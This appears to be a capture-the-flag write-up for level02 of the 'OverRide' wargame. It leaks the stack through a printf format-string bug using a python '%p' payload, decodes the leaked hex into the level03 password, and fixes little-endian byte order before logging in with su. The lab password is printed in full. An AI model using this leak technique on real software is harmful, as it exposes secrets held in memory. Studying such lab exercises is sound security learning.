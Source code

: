 # Level02

After looking at the code, we see that the password of level03 is stored in a variable, and there is a vulnerable call to printf if the password check fails. At first we try to simply print the content of the stack to see if there's anything relevant (see [rainfall levels 03-05](https://github.com/SERAC-SGM/rainfall-42)) :

    level02@OverRide:~$ python -c 'print " %p" * 50' | ./level02 
    ===== [ Secure Access System v1.0 ] =====
    /***************************************\
    | You must login to access this system. |
    \**************************************/
    --[ Username: --[ Password: *****************************************
    0x7fffffffe4f0 (nil) 0x20 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe6e8 0x1f7ff9a08 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x702520 (nil) (nil) (nil) (nil) (nil) 0x100000000 (nil) 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d 0xfeff00 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 does not have access!

Thanks to our newly acquired skill to detect ASCII in hexadecimal format, we can find 5 weird-looking values, and their converted ASCII value :

    0x756e505234376848: unPR47hH
    0x45414a3561733951: EAJ5as9Q
    0x377a7143574e6758: 7zqCWNgX
    0x354a35686e475873: 5J5hnGXs
    0x48336750664b394d: H3gPfK9M

The string formed is (don't forget the stack is from lowest to highest bytes ) :

    H3gPfK9M5J5hnGXs7zqCWNgXEAJ5as9QunPR47hH

This is **very strangely** similar to a password. Let's try it :

    level02@OverRide:~$ su level03
    Password: H3gPfK9M5J5hnGXs7zqCWNgXEAJ5as9QunPR47hH
    su: Authentication failure

Of course little-endian architecture is to blame here.

    level02@OverRide:~$ echo "H3gPfK9M5J5hnGXs7zqCWNgXEAJ5as9QunPR47hH" | rev
    Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
    level02@OverRide:~$ su level03
    Password: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
    RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
    Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   /home/users/level03/level03
    level03@OverRide:~$

noice
